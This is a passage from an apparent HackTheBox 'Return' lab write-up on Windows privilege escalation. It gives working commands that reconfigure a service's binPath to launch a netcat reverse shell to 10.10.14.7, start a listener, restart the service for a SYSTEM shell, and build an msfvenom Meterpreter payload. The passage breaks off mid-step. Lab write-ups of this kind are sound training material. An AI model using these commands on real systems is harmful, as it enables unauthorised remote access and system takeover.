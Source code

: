 ### 4.2 Uploading Payload

We upload `nc.exe` to the target:

![nc_uploaded.png](GitHubv2/HackTheBox/EASY/Return/screenshots/nc_uploaded.png)

---

### 4.3 Service Abuse (Option 1 - Netcat Reverse Shell)

Attempt to create a new service:

```bash
sc.exe create reverse binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.7 443"
```

If creation fails, modify an existing one (e.g., `VMTools`):

![create_process.png](GitHubv2/HackTheBox/EASY/Return/screenshots/create_process.png)

```bash
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.7 443"
```

![identify_process_to_change.png](GitHubv2/HackTheBox/EASY/Return/screenshots/identify_process_to_change.png)

---

### 4.4 Gaining SYSTEM Shell

On our machine, listen for incoming connection:

```bash
nc -nlvp 443
```

Restart the modified service:

```bash
sc.exe stop VMTools
sc.exe start VMTools
```

🏁 **Root flag obtained**  
![root_flag.png](GitHubv2/HackTheBox/EASY/Return/screenshots/root_flag.png)

---

### 4.5 Alternative Stable Method (Meterpreter)

Generate a Meterpreter payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=1337 -f exe > shell.exe
```

Upload the payload:
